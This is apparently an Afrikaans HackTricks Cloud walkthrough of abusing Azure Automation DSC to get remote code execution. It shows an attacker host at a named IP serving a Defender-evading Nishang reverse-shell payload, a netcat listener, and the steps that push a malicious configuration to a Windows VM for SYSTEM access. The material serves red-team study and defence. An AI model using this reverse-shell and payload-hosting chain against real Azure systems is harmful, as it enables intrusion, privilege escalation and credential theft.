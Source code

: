 # Az - Staat Konfigurasie RCE

<details>

<summary><strong>Leer AWS hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

**Kyk die volledige berig by: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Opsomming van Remote Server (C2) Infrastruktuurvoorbereiding en Stappe

#### Oorsig
Die proses behels die opstel van 'n afgeleë bediener-infrastruktuur om 'n gewysigde Nishang `Invoke-PowerShellTcp.ps1` lading, genaamd `RevPS.ps1`, te huisves, wat ontwerp is om Windows Defender te omseil. Die lading word bedien vanaf 'n Kali Linux-rekenaar met IP `40.84.7.74` deur middel van 'n eenvoudige Python HTTP-bediener. Die operasie word uitgevoer deur verskeie stappe:

#### Stap 1 — Skep Lêers
- **Benodigde lêers:** Twee PowerShell-skripte is nodig:
1. `reverse_shell_config.ps1`: 'n Gewensde Staatkonfigurasie (DSC)-lêer wat die lading ophaal en uitvoer. Dit is beskikbaar by [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: 'n Skrip om die konfigurasie na die VM te publiseer, beskikbaar by [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Aanpassing:** Veranderlikes en parameters in hierdie lêers moet aangepas word aan die gebruiker se spesifieke omgewing, insluitend bronname, lêerpaie en bediener/lading-identifiseerders.

#### Stap 2 — Konfigurasie-lêer Zip
- Die `reverse_shell_config.ps1` word saamgedruk in 'n `.zip`-lêer, sodat dit gereed is vir oordrag na die Azure Storage-rekening.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Stap 3 — Stel Stoor Konteks & Laai op
- Die saamgeperste konfigurasie lêer word geüpload na 'n vooraf gedefinieerde Azure Stoorhouer, azure-pentest, deur gebruik te maak van Azure se Set-AzStorageBlobContent cmdlet.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Stap 4 — Berei Kali-boks voor
- Die Kali-bediener laai die RevPS.ps1-vragstuk af van 'n GitHub-opberging.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Die skripsie word gewysig om die teiken Windows VM en poort vir die omgekeerde skulp te spesifiseer.

#### Stap 5 — Publiseer Konfigurasie Lêer
- Die konfigurasie lêer word uitgevoer, wat daartoe lei dat die omgekeerde skulp skripsie na die gespesifiseerde plek op die Windows VM geïmplementeer word.

#### Stap 6 — Gasheer Lading en Stel Luisteraar op
- 'n Python SimpleHTTPServer word gestart om die lading te gasheer, saam met 'n Netcat luisteraar om inkomende verbindinge vas te vang.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Die geskeduleerde taak voer die nut uit en behaal SYSTEM-vlak voorregte.

#### Gevolgtrekking

Die suksesvolle uitvoering van hierdie proses skep tallose moontlikhede vir verdere aksies, soos kredensiale-uitstorting of die uitbreiding van die aanval na verskeie VM's. Die gids moedig voortgesette leer en kreatiwiteit aan in die domein van Azure Automation DSC.

<details>

<summary><strong>Leer AWS-hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
